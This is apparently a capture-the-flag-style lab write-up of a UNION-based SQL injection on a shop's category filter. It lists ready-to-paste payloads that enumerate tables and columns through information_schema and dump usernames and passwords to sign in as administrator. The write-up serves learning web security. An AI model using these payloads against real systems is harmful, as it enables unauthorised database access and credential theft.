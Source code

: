 # SQL injection attack, listing the database contents on non-Oracle databases

A concise write-up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**Sign in as the administrator** by enumerating tables/columns and extracting credentials via UNION-based SQLi.

---

## ✅ My Exact Steps (Verbatim)

1. **GOAL: sign in as the administrator**

2. **exploring parameters options**

3. **finding that this url param is vulnerable: `/filter?category=Food+%26+Drink'` -> returns 500**

4. **fixing the issue: `/filter?category=Food+%26+Drink'--;`**

5. **It's time to explore how sql even works? how do we understand what tables even exist?**

6. **Download mysql or any similar db (i downloaded xampp) -> lets make some research.**

7. **we found this query wil fetch us results of tables: `/filter?category='+UNION+SELECT+DISTINCT+NULL,table_name+FROM+information_schema.tables+--;`**

8. **our sus table is: `users_ywjavh`**

9. **lets do some research how to fetch columns..**

10. **this is our query: `SELECT column_name FROM information_schema.columns WHERE table_schema = 'bank';`**

11. **but we dont know the schema name, we only have the table name, lets change that**

12. **`SELECT column_name FROM information_schema.columns WHERE table_name = 'id';` -> looks perfect.**

13. **lets use it on our case `'+UNION+SELECT+DISTINCT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users_ywjavh'+--;`**

14. **we got two interasting columns: `username_ostvri, password_jvaekv`**

15. **final query: `'+UNION+SELECT+DISTINCT+username_ostvri,password_jvaekv+FROM+users_ywjavh+--;`**

16. **Sign in with creds**

17. **Lab solved.**

---

## 🧠 Minimal Additions (Why / Corrections)

- **UNION rules (MySQL):** The injected `UNION SELECT` must match the **number of columns** (and compatible types) of the original query. Step 7 uses two columns: a **filler** (`NULL`) and the **name to display** (`table_name`). Good.
- **Information schema:**  
  - Tables: `information_schema.tables (table_schema, table_name, ...)`  
  - Columns: `information_schema.columns (table_schema, table_name, column_name, ...)`
  The `WHERE table_name = 'id'` predicate would list columns only for a table **named `id`**, which is likely not intended.
- **Commenting remainder:** In MySQL, `--` is a single-line comment when followed by whitespace. Using `--+` ensures the whitespace (since `+` decodes to space). Alternatives: `#` or `/* ... */`.
- **URL encoding notes:**  
  - `+` = space in query strings.  
  - `%26` is the encoded `&` in `Food+%26+Drink`.  
  - Prefer `%20` for explicit spaces in raw bodies if needed.

---

## 🔧 Payloads I Used (Copy/Paste)

**Discovery & Fix:**
```txt
/filter?category=Food+%26+Drink'
/filter?category=Food+%26+Drink'--+
```

**List tables (two-column UNION):**
```txt
/filter?category='+UNION+SELECT+DISTINCT+NULL,table_name+FROM+information_schema.tables--+
```

**List columns for target table:**
```txt
/filter?category='+UNION+SELECT+DISTINCT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users_ywjavh'+--+
```

**Dump creds from target table (adjust column order if needed):**
```txt
/filter?category='+UNION+SELECT+DISTINCT+username_ostvri,password_jvaekv+FROM+users_ywjavh--+
```

> If the app renders the **second column**, flip positions (e.g., `password,username`). Keep the column **count** constant.

---

## 🏁 Result
- Enumerated tables and columns, extracted credentials from the suspected users table, and **signed in as admin**. **Lab Solved. ✅**
